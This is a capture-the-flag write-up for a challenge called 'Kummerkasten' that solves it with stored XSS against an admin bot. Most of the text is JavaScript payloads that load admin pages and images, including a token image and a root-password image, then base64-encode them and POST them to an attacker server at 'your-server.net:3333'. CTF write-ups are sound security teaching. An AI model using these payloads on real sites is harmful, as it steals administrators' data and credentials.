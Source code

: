 # Kummerkasten

> He's still in seclusion, so he probably has a lot of time to frequently check for any new comments.

Sounds like a XSS is possible. Let's try:
```javascript
<script type="text/javascript">
$.post("http://your-server.net:3333");
</script>
```

After some minutes, you should see a request from the admin. Check the `Referer` header and open this page:
```javascript
<script type="text/javascript">
$.get("/admin/comment/f1e92de5-cdbf-461c-9e9f-5be607cfb97d", function( data ) {
  $.post("http://your-server.net:3333", data);
});
</script>
```

Nice, in the navigation there is a link to `/admin/token`! Let's open it:
```javascript
<script type="text/javascript">
$.get("/admin/token", function( data ) {
  $.post("http://your-server.net:3333", data);
});
</script>
```

We got trolled, there is an image :/. Now we have to get the image and send it to our server, so we base64 encode it and send it in the POST request:
```javascript
<script type="text/javascript">
// http://www.henryalgus.com/reading-binary-files-using-jquery-ajax/
function fetchBlob(uri, callback) {
  var xhr = new XMLHttpRequest();
  xhr.open('GET', uri, true);
  xhr.responseType = 'arraybuffer';

  xhr.onload = function(e) {
    if (this.status == 200) {
      var blob = this.response;
      if (callback) {
        callback(blob);
      }
    }
  };
  xhr.send();
};

// http://stackoverflow.com/a/9458996/128597
function _arrayBufferToBase64(buffer) {
    var binary = '';
    var bytes = new Uint8Array(buffer);
    var len = bytes.byteLength;
    for (var i = 0; i < len; i++) {
        binary += String.fromCharCode(bytes[i]);
    }
    return window.btoa(binary);
};

fetchBlob("admin/img/token.png?20151228", function(blob) {
  $.post("http://your-server.net:3333", _arrayBufferToBase64(blob));
});
</script>
```

Unfortunately this didn't work. Either the admin (a bot of course) was down or it was because the "comment" is too long, so just minify the javascript.
Then decode base64 and open the png file. Looks like a token!


But it didn't work...
Next day we got a hint in the description: There are two parts of the token and we have to concatenate it.

So let's recheck the HTML code of the admin page... and we find another link to `/admin/bugs`. Let's open it:
```javascript
<script type="text/javascript">
$.get("/admin/bugs", function( data ) {
  $.post("http://your-server.net:3333", data);
});
</script>
```

There is another image, let's request it:
```javascript
<script type="text/javascript">
// http://www.henryalgus.com/reading-binary-files-using-jquery-ajax/
function fetchBlob(uri, callback) {
  var xhr = new XMLHttpRequest();
  xhr.open('GET', uri, true);
  xhr.responseType = 'arraybuffer';

  xhr.onload = function(e) {
    if (this.status == 200) {
      var blob = this.response;
      if (callback) {
        callback(blob);
      }
    }
  };
  xhr.send();
};

// http://stackoverflow.com/a/9458996/128597
function _arrayBufferToBase64(buffer) {
    var binary = '';
    var bytes = new Uint8Array(buffer);
    var len = bytes.byteLength;
    for (var i = 0; i < len; i++) {
        binary += String.fromCharCode(bytes[i]);
    }
    return window.btoa(binary);
};

fetchBlob("admin/img/root_pw.png?20151228", function(blob) {
  $.post("http://your-server.net:3333", _arrayBufferToBase64(blob));
});
</script>
```
(Don't forget to minify the javascript source)

Same as before, decode the base64, then we have two tokens.

Concatenate it (first the mysql password of production, then the number-only token) and you're done.
